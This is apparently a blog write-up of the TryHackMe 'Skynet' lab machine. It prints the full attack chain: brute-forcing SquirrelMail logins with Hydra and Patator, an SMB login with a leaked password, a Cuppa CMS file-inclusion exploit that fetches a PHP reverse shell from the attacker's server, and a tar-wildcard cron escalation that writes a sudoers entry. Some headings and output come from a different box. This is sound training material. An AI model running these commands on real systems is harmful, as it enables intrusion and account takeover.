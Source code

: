 ```yaml
---
layout: post
title:  "THM: Skynet"
date:   2021-01-22 21:00:00 +1100
category: hacking
---
```


## battery
*A vulnerable Terminator themed Linux machine.*

This is [Skynet](https://tryhackme.com/room/skynet) from THM. It's easy rated, subscriber only and part of the 'Offensive Pentesting' learning path. I've decided to subscribe; I'll just try one month at this stage and see if I like it. 

## Ports
We've got a few ports:

PORT    STATE SERVICE
1. 22/tcp  open  ssh
2. 80/tcp  open  http
3. 110/tcp open  pop3
4. 139/tcp open  netbios-ssn
5. 143/tcp open  imap
6. 445/tcp open  microsoft-ds

## SMB
We can see there are a couple of shares; particularly *anonymous* and *milesdyson*. The *milesdyson* share requires credentials, whereas the *anonymous* one (duh) does not. In there we get a message about passwords needing to be changed, signed by *Miles Dyson*. There are also three 'log' files; two are empty and the other one contains what looks like a list of passwords.

## HTTP
The front page is a search box that doesn't appear to do anything, and we've got no *robots.txt*. 

Dirsearch finds a few things we don't have access to (particularly *admin* and *config*), but also something we do: *squirrelmail*. This is a webmail client with a login page.

>root@kali:/opt/tryhackme/battery# cat /opt/dirsearch/reports/battery.thm/_21-01-15_20-41-52.txt  
200   663B   http://battery.thm:80/admin.php  
302   908B   http://battery.thm:80/dashboard.php    -> REDIRECTS TO: admin.php  
200     2KB  http://battery.thm:80/forms.php  
200   406B   http://battery.thm:80/index.html  
302     0B   http://battery.thm:80/logout.php    -> REDIRECTS TO: admin.php  
200   715B   http://battery.thm:80/register.php  
200    17KB  http://battery.thm:80/report  
301   311B   http://battery.thm:80/scripts    -> REDIRECTS TO: http://battery.thm/scripts/  
200     2KB  http://battery.thm:80/scripts/  
403   292B   http://battery.thm:80/server-status/  

While searchsploit does have entries for squirrelmail, there are none for this version. So we need to break in.

### Hydra
I've used Hydra in the past to bruteforce login pages but it did have a little trouble with this. The error message given by the webapp for an incorrect login attempt was:

>ERROR  
Unknown user or password incorrect.  
Go to the login page  

After some trial and error, I found that Hydra responded correctly (i.e. correctly identified the user:pass combination) if the error message was *Unknown user or password incorrect* or some part thereof, but NOT if the error message was specified as *ERROR* or *Go to the login page*. So, for example:

``
hydra -l milesdyson -P log1.txt 10.10.158.183 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown"
``

This worked, but this (below) did not:

``
hydra -l milesdyson -P log1.txt 10.10.158.183 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=ERROR"
``

This is fairly unsatisfactory, since not finding anything is a completely valid result; but we can't tell if a null result is due to a problem parsing the page response OR if we don't have a valid credential combination. 

### Medusa
As an experiment, I tried Medusa instead to see if it behaved any better. But it didn't seem to work *at all*.

### Patator
After some more research I decided to try *patator*, about which the [creator says](https://github.com/lanjelot/patator): *Patator was written out of frustration from using Hydra, Medusa, Ncrack, Metasploit modules and Nmap NSE scripts for password guessing attacks.* 

Anyway, it seemed to work very well indeed and successfully grepped the response for the error messages like I would have thought Hydra should have, so it will now be my go to:

``
patator http_fuzz url=http://10.10.204.243/squirrelmail/src/redirect.php method=POST body='login_username=FILE0&secretkey=FILE1&js_autodetect_results=1&just_logged_in=1' 0=./username 1=./log1.txt accept_cookie=1 -x ignore:fgrep='ERROR'
``

### Webmail
The point of this exercise was to get us into Miles's webmail, where we found his SMB password. With that we can login to his share and retrieve some information:

{% highlight shell %}
root@kali:/opt/tryhackme/skynet# python3 /usr/share/doc/python3-impacket/examples/smbclient.py milesdyson:')s{A&2Z=F^n_E.B`'@10.10.204.243
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Type help for list of commands
# use milesdyson
# get important.txt
root@kali:/opt/tryhackme/skynet# cat important.txt 

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
{% endhighlight %}

So now we have a hidden directory to investigate.

## Hidden directory
In the hidden directory under the */administrator* subdirectory we find *Cuppa CMS*. There is a login page but checking searchsploit shows we don't need to login, since we have an unauthenticated LFI/RFI vulnerability:

``
http://10.10.204.243/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
``

I host the PentestMonkey PHP reverse shell on my box and use the RFI:

``
http://10.10.204.243/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.10.123/shell.php
``

{% highlight shell %}
root@kali:/opt/tryhackme/skynet# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.204.243 - - [22/Jan/2021 04:57:32] "GET /shell.php HTTP/1.0" 200 - 
{% endhighlight %}

And with a separate listener, we are on the box.

## Privesc
We are on as www-data but we can read the user flag from */home/milesdyson*. We can also *su* to miles with the password we found earlier for his webmail, but we don't need to. We have a root cronjob with a TAR wildcard to take [advantage of](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/):

{% highlight shell %}
milesdyson@skynet:~/backups$ cat backup.sh
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
www-data@skynet:/var/www/html$ touch -- --checkpoint=1
touch -- --checkpoint=1
www-data@skynet:/var/www/html$ echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > pwn.sh
<ml$ echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > pwn.sh
www-data@skynet:/var/www/html$ touch -- "--checkpoint-action=exec=sh pwn.sh"
touch -- "--checkpoint-action=exec=sh pwn.sh"

www-data@skynet:/var/www/html$ date
date
Fri Jan 22 04:15:04 CST 2021
www-data@skynet:/var/www/html$ sudo su
sudo su
root@skynet:/var/www/html# cd /root
cd /root
root@skynet:~# cat root.txt
cat root.txt
# ROOT FLAG HERE
root@skynet:~# id;hostname
id;hostname
uid=0(root) gid=0(root) groups=0(root)
skynet
{% endhighlight %}

